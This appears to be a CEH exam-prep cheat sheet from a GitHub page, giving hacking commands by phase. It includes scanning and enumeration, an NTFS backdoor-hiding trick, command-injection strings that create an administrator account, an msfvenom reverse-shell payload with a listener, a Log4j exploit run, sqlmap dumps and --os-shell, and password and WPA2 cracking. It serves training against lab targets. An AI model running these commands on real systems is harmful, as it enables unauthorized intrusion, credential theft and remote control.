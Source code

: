 🌐 Footprinting

Whois Lookup: whois.com
Netcraft, ipvoid.com, PeekYou
Ping Command:
Basic: ping www.example.com
With size & fragmentation test: ping www.certifiedhacker.com -f -l 1472
Photon:
python3 photon.py -u http://www.certifiedhacker.com -l 3 -t 200 --wayback
Web Data Extractor – Extracts emails & data
grecon – Subdomains, login pages, WordPress detection
ARIN Whois – Find IP ranges
Centrlops
SMB Access (Windows): Ctrl + L >> smb://[IP]
🔍 Scanning

GUI Tools: MegaPing, NetScanTools Pro
Nmap:
Full scan: nmap -sT -v [IP]
Aggressive: nmap -T4 -A [IP]
Hping3:
hping3 -A [IP] -p 80 -c 5
hping3 --scan 0-100 -S [IP]
hping3 -8 0-100 -S [IP] -V
Live Hosts: nmap -sn -PE [range]
Detect Web Servers: nmap -p 80,443 —script http-title [range]
🧾 Enumeration

NetBIOS (Windows)
nbtstat -a [IP], nbtstat -c, net use
NetBIOS (Linux)
nmap -sV -v --script nbstat.nse [IP]
nmap -sU -p 137 --script nbstat.nse [IP]
SNMP
snmp-check [IP]
snmpwalk -v1 -c public [IP]
nmap -sU -p 161 --script=snmp-* [IP]
LDAP
GUI: AD Explorer
CLI:
ldapsearch -h [IP] -x -s base namingcontexts
ldapsearch -h [IP] -x -b "DC=CEH,DC=com"
NFS
./superenum
python3 rpc-scan.py [IP] --rpc
DNS
dig ns [domain]
Zone Transfer: dig @[NS] [domain] axfr
Windows:
nslookup
set type=soa
[target domain]
SMTP
nmap -p 25 --script=smtp-* [IP]
🛠 Vulnerability Analysis

OpenVAS, Nessus
Nikto:
nikto -h [site] -Tuning x
nikto -h [site] -Cgidirs all
💻 System Hacking

Responder: responder -I eth0
L0pht Crack
NTFS Hiding:
type calc.exe > readme.txt:calc.exe
mklink backdoor.exe readme.txt:calc.exe
Steganography
White Space: snow -C -p "magic" readme2.txt
Tools: OpenStego, StegOnline
🐞 Malware Analysis

Static
BinText, Detect It Easy (DIE), PE Explorer, Ghidra
Dynamic
TCPView, Reg Organizer
📡 Sniffing

Wireshark: Filter - http.request.method == "POST"
MacChanger: macchanger -a eth0
Cain and Abel – ARP poison detection
Nmap: --script=sniffer-detect [IP]
🎭 Social Engineering

SET Toolkit
Netcraft Extension
💥 DoS

Anti DDoS Guardian
🎯 Session Hijacking

ZAP, Bettercap
🌍 Web Server Hacking

Ghost Eye: python3 ghost_eye.py
Httprecon GUI
Netcat: nc -vv www.moviescope.com 80
Telnet:
telnet www.moviescope.com 80
GET / HTTP/1.0
Nmap Scripts:
nmap -sV --script=http-enum [site]
nmap --script=hostmap-bfk --script-args hostmap-bfk.prefix=hostmap- [site]
nmap --script=http-trace -d [site]
nmap -sV --script=http-waf-detect [site]
🔎 Uniscan

Directories: uniscan -u http://url -q
File Check: uniscan -u http://url -we
Dynamic Scan: uniscan -u http://url -d
Brute Force
hydra -L usernames.txt -P passwords.txt ftp://[IP]
🌐 Web Application Hacking

whatweb, lbd, gobuster, dirsearch
Clickjack Detection: ClickjackPoc
WordPress:
wpscan --url http://example --enumerate u
wpscan --url http://site/wp-login.php -U users.txt -P passwords.txt
Command Injection (DVWA):
| whoami
| hostname
| dir C:\
| net user Test /Add
| net localgroup Administrators Test /Add
File Upload Vulnerability:
Payload:
msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw
Upload then:
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
run
🧨 Log4j

tar -xf jdk-8u202-linux-x64.tar.gz
mv jdk1.8.0_202 /usr/bin/
# Modify paths in poc.py
nc -lvp 9001
python3 poc.py --userip 10.10.1.13 --webport 8000 --lport 9001
🧬 SQL Injection

sqlmap:
sqlmap -u "http://site/viewprofile.aspx?id=1" --cookie="cookie" --dbs
sqlmap -u "... " -D db --tables
sqlmap -u "... " -D db -T table --dump
sqlmap --os-shell
DSSS:
python3 dsss.py -u "http://site/viewprofile.aspx?id=1" --cookie="cookie"
📶 Wireless Network Hacking

WEP: aircrack-ng [path.cap]
WPA2:
aircrack-ng -a2 -b [BSSID] -w [wordlist] [packet.cap]
📱 Mobile Platform Hacking

PhoneSploit: python3 phonesploit.py
APK Analysis: sisik.eu/apk-tool
📡 IoT Hacking

Shodan
MQTT Port: 1883

